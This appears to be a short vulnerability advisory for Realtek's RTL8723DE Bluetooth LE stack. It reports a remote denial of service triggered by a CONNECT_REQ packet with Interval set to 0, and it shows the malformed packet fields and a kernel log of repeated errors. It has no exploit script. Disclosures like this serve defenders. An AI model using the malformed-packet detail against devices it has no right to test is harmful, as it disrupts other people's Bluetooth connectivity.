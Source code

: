 # Repository
https://www.realtek.com/en/component/zoo/category/rtl8723de-software

# Package
https://www.realtek.com/en/component/zoo/category/rtl8723de-software


# Impact
When realtek BLE protocol stack handles the device connection message CONNECT_REQ, the Interval field is not handled properly, and the attacker can launch a denial of service attack remotely

# Affect Versions
<=4.1

# Patched Versions
NULL

# POC

# Prove
```
Link Layer Data
  Access Address: 0x9a328370
  CRC Init: 0x179a9c
  Window Size: 2 (2.5 msec)
  Window Offset: 2 (2.5 msec)
  Interval: 0 (0 msec)
  Latency: 0
  Timeout: 50 (62.5 msec)
`

dmesg.log
`
  [  584.475344] Bluetooth: Peer acked invalid packet
  [  584.480585] Bluetooth: Peer acked invalid packet
  [  584.501450] Bluetooth: Peer acked invalid packet
  [  584.533039] Bluetooth: Peer acked invalid packet
  [  584.564637] Bluetooth: Peer acked invalid packet
  [  584.596220] Bluetooth: Peer acked invalid packet
  [  584.627825] Bluetooth: Peer acked invalid packet
  [  584.659400] Bluetooth: Peer acked invalid packet
  [  584.690988] Bluetooth: Peer acked invalid packet
  [  584.721535] Bluetooth: hu c6761cc0 retransmitting 2 pkts
  [  584.722592] Bluetooth: Peer acked invalid packet
  [  584.733497] Bluetooth: Peer acked invalid packet
  [  584.739112] Bluetooth: Peer acked invalid packet
  [  584.765247] Bluetooth: Peer acked invalid packet
  [  584.796834] Bluetooth: Peer acked invalid packet
  [  584.828433] Bluetooth: Peer acked invalid packet
  [  584.860023] Bluetooth: Peer acked invalid packet
  [  584.891611] Bluetooth: Peer acked invalid packet
  [  584.923200] Bluetooth: Peer acked invalid packet
  [  584.954778] Bluetooth: Peer acked invalid packet
  [  584.986387] Bluetooth: Peer acked invalid packet
```


# Workarounds


# For more information
If you have any questions or comments about this advisory:
Email us at qulewei@baidu.com

# Acknowledgements
repoter :qulewei

# References

